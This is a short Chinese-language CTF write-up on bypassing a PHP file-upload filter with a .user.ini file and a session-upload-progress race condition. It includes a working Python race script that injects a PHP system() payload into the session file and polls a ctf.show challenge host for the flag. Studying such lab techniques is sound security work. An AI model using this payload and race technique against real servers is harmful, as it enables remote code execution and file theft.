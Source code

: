 ## .user.ini结合sesesion竞争绕过

首先正常上传.user.ini，内容如下
 ![img](文件上传.assets/1681142127831-56d58fce-79ba-47b4-b063-b762495ee885.png)

接着上传png
 ![img](文件上传.assets/1681142138625-2c01ef63-69da-4cdb-93d5-1bfa5fcd91fe.png).

最后就开始条件竞争

```python
import requests
import threading
session=requests.session()
sess='yu22x'
url1="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/"
url2="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/upload"
data1={
    'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("tac ../f*");?>'
}
file={
    'file':'yu22x'
}
cookies={
    'PHPSESSID': sess
}

def write():
    while True:
        r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
    while True:
        r = session.get(url2)
        if 'flag' in r.text:
            print(r.text)

threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()
```